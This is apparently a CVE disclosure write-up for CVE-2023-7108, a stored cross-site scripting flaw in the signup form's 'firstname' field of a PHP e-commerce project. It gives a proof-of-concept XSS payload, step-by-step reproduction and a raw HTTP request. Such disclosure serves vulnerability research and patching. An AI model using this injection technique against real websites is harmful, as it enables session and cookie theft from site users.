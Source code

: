 # CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Exploit Title:** CVE-2023-7108_E-Commerce Website - Stored Cross-site Scripting
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7108

## References: 
+ **CVE-2023-7108:** https://vuldb.com/?id.249003
+ https://www.cve.org/CVERecord?id=CVE-2023-7108
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7108

## Description:
E-Commerce Website 1.0 allows Stored Cross-site Scripting via parameter 'firstname' in "Electricks/Electricks-shop/pages/user_signup.php". E-Commerce Website is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill First name with this payload: `<video/src=x onerror=alert(document.domain)>`
+ Fill the the all form and click Create Account button.
+ Then navigate to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
+ Then XSS will be triggered permanently.
+ Refresh and alert will continue to pop-up.
+ Example request for 'firstname' parameter:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
Cookie: PHPSESSID=8imurtv40ut9ah7s8bk6auen4i
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

firstname=%3Cvideo%2Fsrc%3Dx+onerror%3Dalert%28document.domain%29%3E&middlename=test3&lastname=test3&email=test3&address=test3&contact=test3&username=test3&password=test&submit=
```
+ Go to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
<br>
![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/931dcbe2-fc38-44ad-b314-a080f8a60cd0)
<br>
<br>
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/753e20c4-eef8-4655-bc3f-869370c08d24)

